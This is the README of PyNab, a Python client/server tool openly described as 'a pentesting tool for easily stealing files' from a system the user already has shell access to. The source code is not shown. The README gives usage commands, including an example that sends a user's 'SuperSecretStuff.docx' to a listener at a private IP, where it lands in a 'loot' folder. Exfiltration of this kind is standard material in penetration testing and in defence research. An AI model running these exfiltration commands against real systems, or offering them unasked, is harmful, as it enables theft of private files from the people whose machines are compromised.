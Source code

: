 # PyNab
##### A pentesting tool for easily stealing files
_Made with <3 By Dan Goodman, Signed 12/31/17_

_Works as a nifty file sharing tool too!_

---

Running this assumes you already know where the file is, this should be used through a shell after all. This is to make it easier than worrying about making sure you can SCP to a system.

The server is required to be run for every file sent, will eventually make it so the server has to be run only once to get multiple files.

Also currently only accepts one connection in

### Client:

Run like:

    python3 clientNab.py IP PORT FILELOCATION

replacing `IP`, `PORT`, and `FILELOCATION` with the respective values

Example use:

    python3 clientNab.py 192.168.1.30 5555 /Users/{some username}/Documents/SuperSecretStuff.docx

This will drop that file into a loot folder where the `serverNab.py` file is running on the server.

This should also work for Python 2, but the print statements and encoding/decoding might need to be changed.


### Server:

Run like:

    serverNab.py IP PORT

replacing `IP`, `PORT`, and `FILELOCATION` with the respective values

Example use:

    serverNab.py 129.168.1.45 5555

Make sure to run this before the client!